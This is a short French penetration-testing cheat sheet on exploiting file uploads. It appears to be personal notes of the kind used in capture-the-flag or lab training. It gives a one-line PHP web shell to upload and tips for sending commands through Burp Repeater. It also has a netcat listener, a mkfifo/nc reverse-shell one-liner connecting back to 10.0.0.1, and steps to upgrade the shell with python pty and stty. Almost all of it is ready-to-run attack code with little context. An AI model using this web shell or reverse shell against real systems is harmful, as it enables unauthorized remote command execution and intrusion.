 ## Upload de fichier

Exécution de commande basique :

```php
<?php
    system($_REQUEST['cmd']);
?>
```

## Exécuter des commandes simplement

Passer en POST :
"Change request method" dans le Repeter.

encoder les commandes avec `Ctrl + U`.

## Reverse shell:
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

netcat en écoute
```bash
nc -lvnp 1234
```


```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

## Améliorer son shell

Minimal : utiliser rlwrap
```bash
rlwrap nc -lvnp 1234
```

### Mieux si python

Dans le shell
```
python -c "import pty;pty.spawn('/bin/bash')"
```

`Ctrl + Z` pour passer en arrière plan

```bash
stty raw -echo

fg
export TERM=xterm
```
